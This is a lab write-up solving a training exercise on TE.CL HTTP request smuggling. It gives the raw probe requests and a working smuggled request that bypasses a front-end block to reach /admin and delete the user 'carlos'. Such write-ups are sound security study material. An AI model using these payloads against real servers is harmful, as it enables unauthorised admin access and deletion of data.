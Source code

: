 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.


# Solution
## Analysis
### Confirming that /admin path exists
|![](Images/image-31.png)|
|:--:| 
| *Path /admin exists and is blocked* |

### Determining what the front-end is using
HTTP status code `400 Bad Request` idicates that front-end or back-end is using `Transfer-Encoding` header.
```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-31.png)|
|:--:| 
| *Front-end is using TE* |

### Determining what the back-end is using
`Time out` confirms `TE.CL` vulnerability. Front-end is using `Transfer-Encoding` header. Back-end is using `Content-Length` header.

```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

|![](Images/image-33.png)|
|:--:| 
| *Front-end is using TE* |
| *Back-end is using CL* |

## Exploitation
First request poisoned the back-end. Part of the second request was added to the end of the previous request  - based on the second `Content-Length` header. The `POST / HTTP/1.1` was ignored thanks to `x` parameter and second `Content-Length` value from payload.
```
POST / HTTP/1.1
Host: 0a2a006e0479224380fcc687000d0074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
|![](Images/image-34.png)|
|:--:| 
| *Request was smuggled but Host header value was wrong* |
|![](Images/image-35.png)|
| *Request was smuggled successfuly* |
|![](Images/image-36.png)|
| *Deletion of user Carlos* |